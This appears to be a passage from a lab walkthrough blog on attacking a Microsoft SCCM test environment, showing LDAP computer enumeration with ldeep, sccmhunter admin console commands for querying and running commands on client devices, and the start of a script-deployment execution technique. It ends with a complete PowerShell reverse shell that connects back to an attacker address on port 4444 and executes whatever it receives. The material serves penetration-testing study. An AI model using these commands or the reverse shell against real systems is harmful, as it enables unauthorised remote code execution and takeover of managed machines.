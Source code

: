 ![add_admin_sccmhunter.png](/assets/blog/SCCM/add_admin_sccmhunter.png)

## recon-4 - CMPivot - query client devices

- First retrieve the computer list

```bash
ldeep ldap -u carol -p SCCMftw -d SCCM.lab -s ldap://192.168.33.10 computers 
```

![list_computers.png](/assets/blog/SCCM/list_computers.png)

- And than show the devices in sccmhunter

```bash
python3 sccmhunter.py admin -u carol@sccm.lab -p 'SCCMftw' -ip 192.168.33.11 -debug
() (C:\) >> get_device CLIENT
```

![get_device_mecm.png](/assets/blog/SCCM/get_device_mecm.png)

## execute commands

- SCCM hunter come with a lot of builtin commands to run :
    * `administrators`
    * `ipconfig`
    * `environment`
    * `disk`
    * `console_users`
    * `cd`
    * `cat`
    * `ls`
    * `list_disk`
    * `osinfo`
    * `ps`
    * `services`
    * `sessions`
    * `shares`
    * `software`

See SCCMHunter wiki for the list :  [https://github.com/garrettfoster13/sccmhunter/wiki/admin](https://github.com/garrettfoster13/sccmhunter/wiki/admin)

![interact_mecm.png](/assets/blog/SCCM/interact_mecm.png)

## exec-2 - Script Deployment

- Details here : [Exec-2](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/EXEC/EXEC-2/exec-2_description.md)
- First we will create a simple revershell in powershell

```powershell
$c = New-Object System.Net.Sockets.TCPClient('192.168.33.1',4444);
$s = $c.GetStream();[byte[]]$b = 0..65535|%{0};
while(($i = $s.Read($b, 0, $b.Length)) -ne 0){
    $d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);
    $sb = (iex $d 2>&1 | Out-String );
    $sb = ([text.encoding]::ASCII).GetBytes($sb + 'ps> ');
    $s.Write($sb,0,$sb.Length);
    $s.Flush()
};
$c.Close()
```
